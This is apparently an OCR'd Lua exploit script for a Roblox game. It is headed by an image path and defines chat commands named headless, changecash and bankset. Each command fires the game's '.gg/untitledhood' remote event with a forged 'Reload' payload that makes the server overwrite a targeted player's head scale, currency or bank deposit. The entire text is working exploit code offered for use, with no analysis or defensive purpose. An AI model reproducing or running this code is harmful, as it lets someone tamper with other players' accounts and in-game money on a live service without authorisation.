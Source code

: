 	function headless(msg)
		local separate = string.sub(msg, 2)
		local datas = {}	
		for data in string.gmatch(separate, "%S+") do
			table.insert(datas, data)
		end
		if findplr(datas[2]) then
			local target = findplr(datas[2]).Name
			game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer("Reload",
			{
				Name = "[".. usedweapon .."]",
				Ammo = workspace.Players[target].Humanoid["HeadScale"],
				MaxAmmo = {Value = -1}
			}
			)
		end
	end

	function changecash(msg)
		local separate = string.sub(msg, 2)
		local datas = {}	
		for data in string.gmatch(separate, "%S+") do
			table.insert(datas, data)
		end
		if type(tonumber(datas[3])) == "number" then
			if findplr(datas[2]) then
				local target = findplr(datas[2]).Name
				game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer("Reload",
				{
					Name = "[".. usedweapon .."]",
					Ammo = game.Players[target].DataFolder.Currency,
					MaxAmmo = {Value = tonumber(datas[3])}
				}
				)
			end
		end
	end

	function bankset(msg)
		local separate = string.sub(msg, 2)
		local datas = {}	
		for data in string.gmatch(separate, "%S+") do
			table.insert(datas, data)
		end
		if type(tonumber(datas[3])) == "number" then
			if findplr(datas[2]) then
				local target = findplr(datas[2]).Name
				game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer("Reload",
				{
					Name = "[".. usedweapon .."]",
					Ammo = game.Players[target].DataFolder.BankDeposit,
					MaxAmmo = {Value = tonumber(datas[3])}
				}
				)
			end
		end
	end
